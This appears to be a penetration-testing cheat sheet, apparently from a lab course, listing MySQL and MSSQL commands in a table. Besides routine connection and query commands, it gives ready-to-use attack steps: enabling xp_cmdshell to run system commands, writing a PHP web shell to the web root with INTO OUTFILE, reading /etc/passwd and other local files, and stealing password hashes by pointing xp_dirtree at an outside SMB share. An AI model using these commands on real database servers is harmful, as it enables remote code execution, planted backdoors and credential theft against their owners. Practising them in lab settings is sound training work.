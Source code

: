 | Command                                                                                                                     | Description                                                                                                   |
| --------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------- |
| mysql -u julio -pPassword123 -h 10.129.20.13                                                                                | Connecting to the MySQL server.                                                                               |
| sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30                                                         | Connecting to the MSSQL server.                                                                               |
| sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h                                                                           | Connecting to the MSSQL server from Linux.                                                                    |
| sqsh -S 10.129.203.7 -U .\\\julio -P 'MyPassword!' -h                                                                       | Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server. |
| mysql> SHOW DATABASES;                                                                                                      | Show all available databases in MySQL.                                                                        |
| mysql> USE htbusers;                                                                                                        | Select a specific database in MySQL.                                                                          |
| mysql> SHOW TABLES;                                                                                                         | Show all available tables in the selected database in MySQL.                                                  |
| mysql> SELECT \* FROM users;                                                                                                | Select all available entries from the "users" table in MySQL.                                                 |
| sqlcmd> SELECT name FROM master.dbo.sysdatabases                                                                            | Show all available databases in MSSQL.                                                                        |
| sqlcmd> USE htbusers                                                                                                        | Select a specific database in MSSQL.                                                                          |
| sqlcmd> SELECT \* FROM htbusers.INFORMATION\_SCHEMA.TABLES                                                                  | Show all available tables in the selected database in MSSQL.                                                  |
| sqlcmd> SELECT \* FROM users                                                                                                | Select all available entries from the "users" table in MSSQL.                                                 |
| sqlcmd> EXECUTE sp\_configure 'show advanced options', 1                                                                    | To allow advanced options to be changed.                                                                      |
| sqlcmd> EXECUTE sp\_configure 'xp\_cmdshell', 1                                                                             | To enable the xp\_cmdshell.                                                                                   |
| sqlcmd> RECONFIGURE                                                                                                         | To be used after each sp\_configure command to apply the changes.                                             |
| sqlcmd> xp\_cmdshell 'whoami'                                                                                               | Execute a system command from MSSQL server.                                                                   |
| mysql> SELECT "\<?php echo shell\_exec($\_GET\['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'                          | Create a file using MySQL.                                                                                    |
| mysql> show variables like "secure\_file\_priv";                                                                            | Check if the the secure file privileges are empty to read locally stored files on the system.                 |
| sqlcmd> SELECT \* FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE\_CLOB) AS Contents                  | Read local files in MSSQL.                                                                                    |
| mysql> select LOAD\_FILE("/etc/passwd");                                                                                    | Read local files in MySQL.                                                                                    |
| sqlcmd> EXEC master..xp\_dirtree '\\\10.10.110.17\share\\'                                                                  | Hash stealing using the xp\_dirtree command in MSSQL.                                                         |
| sqlcmd> EXEC master..xp\_subdirs '\\\10.10.110.17\share\\'                                                                  | Hash stealing using the xp\_subdirs command in MSSQL.                                                         |
| sqlcmd> SELECT srvname, isremote FROM sysservers                                                                            | Identify linked servers in MSSQL.                                                                             |